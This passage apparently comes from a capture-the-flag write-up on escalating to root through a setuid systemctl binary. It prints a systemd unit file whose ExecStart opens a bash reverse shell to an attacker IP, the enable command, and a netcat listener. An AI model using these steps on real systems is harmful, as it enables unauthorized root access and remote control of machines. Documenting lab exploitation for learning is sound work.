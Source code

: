 The _systemctl_ binary has the setuid bit set and it’s owned by root. We can use that to our advantage and escalate to root privileges. If you’re not sure how to do that, you can search the binary name on [GTFOBins](https://gtfobins.github.io/) and check how the suid bit can be used to escalate privileges.

![](../images/max/838/1*pD6dkx0nxEvx9A0YYGO_5A.png)

There’s a good blog written by [Samual Whang](https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49) explaining how to set up a service and use the misconfigured _systemctl_ binary to send a privileged reverse shell back to our attack machine.

First, create a _root.service_ file with the following content.

```text
[Unit]
Description=get root privilege[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.12/9999 0>&1'[Install]
WantedBy=multi-user.target
```

Transfer it to the target machine. Then run the following command.

```text
/bin/systemctl enable /home/pepper/root.service
```

This command will hook the specified unit to the correct place so that _root.service_ is started automatically on boot.

Next, set up a listener on your attack machine to receive the reverse shell.

```text
nc -nlvp 9999
```
